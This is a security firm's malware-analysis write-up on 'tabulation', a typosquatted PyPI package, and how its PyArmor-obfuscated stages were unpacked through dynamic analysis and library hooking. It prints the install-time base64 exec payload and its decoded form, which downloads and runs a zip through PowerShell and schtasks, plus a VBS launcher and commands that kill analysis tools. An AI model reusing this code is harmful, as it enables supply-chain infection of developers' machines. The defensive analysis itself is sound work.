 ```yaml
---
publishDate: 2023-07-12T00:00:00Z
title: A Gap in the Armor
excerpt: Exploiting third party dependancies to bypass PyArmor obfuscation.
image: ~/assets/images/armor-henry-hustava-unsplash.jpg
category: Malware Analysis
tags:
  - malware
  - pyarmor
  - analysis
---
```


Before we begin, a gentle shoutout to Lockness Ko, our dynamic analysis specialist, for his assistance with the dynamic analysis portion of this particular malicious package.

On the 26th of June, a Python package named **tabulation** came across our malware feed. It displayed all the signs of being a malicious package-- executing a base64 string within the setup.py portion of the package, and squatting a fairly well known package, **tabulate** by utilizing it's README and Github pages in the metadata. As we do with all packages that are suspected to be malicious, we began an analysis.

## The Payload

As mentioned, the payload contained a base64 encoded string that would execute upon the installation of the package. Nothing shockingly out of the ordinary or ground breaking here on the malware front, this is a common tactic, it's easy to detect, and this particular version was easy enough to reverse as well.

```python
exec(base64.b64decode("aW1wb3J0IHN1YnByb2Nlc3MsIG9zCmRlZiByKGMpOiA\
KICAgIHJlc3VsdCA9IHN1YnByb2Nlc3MuUG9wZW4oYywgc2hlbGw9VHJ1ZSwgc3Rka\
W49c3VicHJvY2Vzcy5QSVBFLCBzdGRvdXQ9c3VicHJvY2Vzcy5QSVBFLCBzdGRlcnI\
9c3VicHJvY2Vzcy5TVERPVVQsIGNsb3NlX2Zkcz1UcnVlKQogICAgb3V0cHV0ID0gc\
mVzdWx0LnN0ZG91dC5yZWFkKCkKZGVmIHIyKGMpOgogICAgc3VicHJvY2Vzcy5Qb3B\
lbihjLCBzaGVsbD1UcnVlLCBzdGRpbj1zdWJwcm9jZXNzLlBJUEUsIHN0ZG91dD1zd\
WJwcm9jZXNzLlBJUEUsIHN0ZGVycj1zdWJwcm9jZXNzLlNURE9VVCwgY2xvc2VfZmR\
zPVRydWUpCmlmIG9zLm5hbWUgPT0gIm50IjoKICAgIGlmIG5vdCBvcy5wYXRoLmV4a\
XN0cyhyIkM6L1Byb2dyYW1EYXRhL1VwZGF0ZXIiKToKICAgICAgICByKHIicG93ZXJ\
zaGVsbCAtY29tbWFuZCAkUHJvZ3Jlc3NQcmVmZXJlbmNlID0gJ1NpbGVudGx5Q29ud\
GludWUnOyAkRXJyb3JBY3Rpb25QcmVmZXJlbmNlID0gJ1NpbGVudGx5Q29udGludWU\
nOyBJbnZva2UtV2ViUmVxdWVzdCAtVXNlQmFzaWNQYXJzaW5nIC1VcmkgaHR0cHM6L\
y90cmFuc2Zlci5zaC9UVVVwUXJVdTlkL0luc3RhbGwuemlwIC1PdXRGaWxlICRlbnY\
6dG1wL2luc3QuemlwOyBFeHBhbmQtQXJjaGl2ZSAtRm9yY2UgLUxpdGVyYWxQYXRoI\
CRlbnY6dG1wL2luc3QuemlwIC1EZXN0aW5hdGlvblBhdGggQzovUHJvZ3JhbURhdGE\
7IFJlbW92ZS1JdGVtICRlbnY6dG1wL2luc3QuemlwIikKICAgICAgICBmcm9tIGRhd\
GV0aW1lIGltcG9ydCBkYXRldGltZSwgdGltZWRlbHRhOyB0ID0gKGRhdGV0aW1lLm5\
vdygpICsgdGltZWRlbHRhKG1pbnV0ZXM9MSkpLnN0cmZ0aW1lKCclSDolTScpCiAgI\
CAgICAgcjIoZidzY2h0YXNrcyAvQ3JlYXRlIC9TQyBPTkNFIC9TVCB7dH0gL1ROICJ\
VcGRhdGVyIiAvVFIgIkM6XFByb2dyYW1EYXRhXEluc3RhbGxcaW52aXMudmJzIicp"))
```

So let's unpack this a bit. As with most of these, you can simply swap the `exec` for a `print` and out will pop the 'obfuscated' payload.

```python
import subprocess, os
def r(c):
    result = subprocess.Popen(c, shell=True, stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.STDOUT, close_fds=True)
    output = result.stdout.read()
def r2(c):
    subprocess.Popen(c, shell=True, stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.STDOUT, close_fds=True)
if os.name == "nt":
    if not os.path.exists(r"C:/ProgramData/Updater"):
        r(r"powershell -command $ProgressPreference = 'SilentlyContinue'; $ErrorActionPreference = 'SilentlyContinue'; Invoke-WebRequest -UseBasicParsing -Uri xxxx://transfer.sh/xxxx/Install.zip -OutFile $env:tmp/inst.zip; Expand-Archive -Force -LiteralPath $env:tmp/inst.zip -DestinationPath C:/ProgramData; Remove-Item $env:tmp/inst.zip")
        from datetime import datetime, timedelta; t = (datetime.now() + timedelta(minutes=1)).strftime('%H:%M')
        r2(f'schtasks /Create /SC ONCE /ST {t} /TN "Updater" /TR "C:\ProgramData\Install\invis.vbs"')
```

Now this is a little more exciting. As we can see, we use Powershell's `Invoke-WebRequest` to quietly curl down an **install.zip** file from transfer.sh and to unpack it into a known location. It then invokes the Windows Task Scheduler to execute **invis.vbs** a minute after the subprocess is executed. Presumably, this is to allow for the file to download and decompress. But what exactly do these files contain, and what is invis.vbs doing?

```vb
Set oShell = CreateObject ("Wscript.Shell")
Dim strArgs
strArgs = "cmd /c pythonw C:\ProgramData\Install\inst.pyw"
oShell.Run strArgs, 0, false
```

This creates a WScript Shell, which invokes **inst.pyw**. We're now at Russian nesting dolls of staging. But bare with me, because this is where it gets interesting. As I said, the initial file dropped **installer.zip** was a ziparchive and decompressed during download. The file also contained the **pyarmor_runtime** and **inst.pyw** files. These, as you can likely glean by the name alone, are PyArmor obfuscated files. This presents a unique challenge, PyArmor unpackers are well documented running up to Python 3.10, but recent changes to the bytecode and opmaps in Python 3.11 have caused many of the ways these deobfuscators function to fail. And as anticipated, several off-the-shelf unpackers like Svenskithesource's [PyArmor-Unpacker](https://github.com/Svenskithesource/PyArmor-Unpacker) were ineffective at handling this new bytecode change.

## Dynamic Analysis

So with our static unpackers struggling to work through the PyArmor obfuscation, we shifted to dynamic analysis. I mentioned Lockness Ko earlier in the article; he was kind enough to lend a Dynamic Analysis sandbox for the next portion. We began as most dynamic analysis solutions do-- spinning up PCAP and packet sniffing software, turning on ProcMon and running the program. The first time we managed to get the program to run in the sandbox, Wireshark immediately died. A good indicator that we're dealing with something that's attempting to enumerate the virtual machine. We moved network monitoring out of the sandbox and tried again...

And not much happened. We killed the process and pulled up ProcMon to see if there was something we were missing, but we weren't catching a whole lot. So in the spirit of seeing if this was some sort of delayed execution, we went ahead and ran the file one more time and let it sit for what felt like an eternity. And we waited. And we waited. And at last, we had something. ProcMon started firing off system events for enumeration of the current environment.

```
"10:09:44.5260407 PM","WScript.exe","3396","Process Create","C:\Windows\System32\cmd.exe","SUCCESS","PID: 4292, Command line: ""C:\Windows\System32\cmd.exe"" /c pythonw C:\ProgramData\Install\inst.pyw"
"10:09:45.6561948 PM","pythonw.exe","5020","Process Create","C:\Program Files\Python311\Scripts\pip.exe","SUCCESS","PID: 1188, Command line: pip install requests"
"10:09:52.1659818 PM","pythonw.exe","5020","Process Create","C:\Program Files\Python311\Scripts\pip.exe","SUCCESS","PID: 2064, Command line: pip install cryptography"
"10:10:07.6860549 PM","pythonw.exe","5020","Process Create","C:\Windows\System32\Wbem\wmic.exe","SUCCESS","PID: 1476, Command line: wmic process get name"
"10:10:08.4851339 PM","pythonw.exe","5020","Process Create","C:\Windows\system32\cmd.exe","SUCCESS","PID: 1436, Command line: C:\Windows\system32\cmd.exe /c ""taskkill /f /im wireshark.exe"""
"10:10:08.4951144 PM","pythonw.exe","5020","Process Create","C:\Windows\system32\cmd.exe","SUCCESS","PID: 4632, Command line: C:\Windows\system32\cmd.exe /c ""taskkill /f /im dumpcap.exe"""
"10:10:08.5035489 PM","pythonw.exe","5020","Process Create","C:\Windows\system32\cmd.exe","SUCCESS","PID: 3844, Command line: C:\Windows\system32\cmd.exe /c ""taskkill /f /im processhacker.exe"""
"10:10:08.5120777 PM","pythonw.exe","5020","Process Create","C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe","SUCCESS","PID: 1052, Command line: powershell.exe get-process | format-table mainwindowtitle"
```

Now I'd like to draw some attention to several lines here.
`taskkill /f /im wireshark.exe` - The source of our dead Wireshark on the first run.
`pip install requests` and `pip install cryptography` will be very important very soon.
We can see the outbound beaconing in Wireshark, given that we've moved Wireshark outside of the virtual machine. We can see it calling to a **tor.pm** address in our PCAP's. Since we're not catching the events in process monitor, this must mean that ~~the call is coming from inside the house~~ the requests are being transmitted through Python. But what is this actually doing, what information is being communicated?

Well as previously mentioned, we saw **requests** and **cryptography** installed through subprocesses. So that gives us some good intuition about the kind of interface we might be dealing with for this information. Intuition dictated that hooking the **requests** POST API function might spill out the information we're looking for. So we did just that.

**requests/api.py**

```python
def post(url, data=None, json=None, **kwargs):
    with open("C:\Windows\Temp\post.txt", "a") as f:
        f.write(url, data, json, sep='\n')
    ...
```

Running this, as anticipated, caused any POSTs utilizing the Python Requests package to write themselves to a file. We went ahead and ran the script again and...

```
REQUEST
xxxx://xxxx.tor.pm/
{'1': 'gAAAAABkoRHTIO_HSkSBxDbFaarHWwX8T1qKIUgbuhaf0-294oY_TR1RuYFPVXYBkG5lQIKw2rRV7oPxL-CaKsiPerMKdwV5sUO1MEn3GZw3RToeSQXqvYo=',
...}
```

And that's not shockingly helpful. However, we do have some excellent pretext for what this information might actually be! If you recall earlier, the **cryptography** package was installed during the execution of the malware. Fernet is a very common cryptography format used in Python, and more importantly, the `gAAAAAB`refers to a fairly fixed portion, the "fixed" timestamp. This allowed us to confirm that these were indeed Fernet encrypted payloads. For those unfamiliar with Fernet, it is a symmetric encryption algorithm utilizing a key. For our purposes, that is the brief of it. For those looking to read more, you can find a writeup on Fernet encryption in the [PYCA Cryptography documents](https://cryptography.io/en/latest/fernet/). Equipped with that information, we went ahead and enumerated the Cryptography package as well. Utilizing the same techniques we used in the requests modification, we hooked the `generate_key()` and `encrypt()` functions to also write their arguments to a file. So, for one final, time, we went ahead and ran the program, with all the appropriate functions hooked. And it worked perfectly!

```
========
model vbox harddisk
==============
product  virtualbox
==============
version  vbox- 1
==============
name system idle process system  registrysmss.execsrss.exe  wininit.exeservices.exe  lsass.exe  svchost.exesvchost.exefontdrvhost.exe  svchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.execsrss.exe  winlogon.exe  fontdrvhost.exe  dwm.exe sihost.exe taskhostw.exe explorer.exe  shellexperiencehost.exeruntimebroker.exeruntimebroker.exeapplicationframehost.exe  svchost.exediscord.exediscord.exediscord.exediscord.exediscord.exediscord.exegooglecrashhandler.exe googlecrashhandler64.exe  procmon64.exe cmd.exe conhost.exepowershell.exechrome.exe chrome.exe chrome.exe chrome.exe chrome.exe chrome.exe chrome.exe chrome.exe cmd.exe conhost.exepythonw.exewmiprvse.exe  wmic.execonhost.exe
```

Quite underwhelmingly, this seems to enumerate running processes and user information and signal back to the server. There were no other signs of additional downloads or file drops.

## Summary

This is but one example of how we can effectively use some creative process hooking and know-how to cause cryptographic functions to spill their secrets when they're relying on external libraries and packages to do that transmission. Dynamic analysis can facilitate introspection into programs that might otherwise use heavy obfuscation, and Python's reputation as an interpreted language makes levying the base level libraries and infrastructure a breeze to enumerate obfuscated malware.

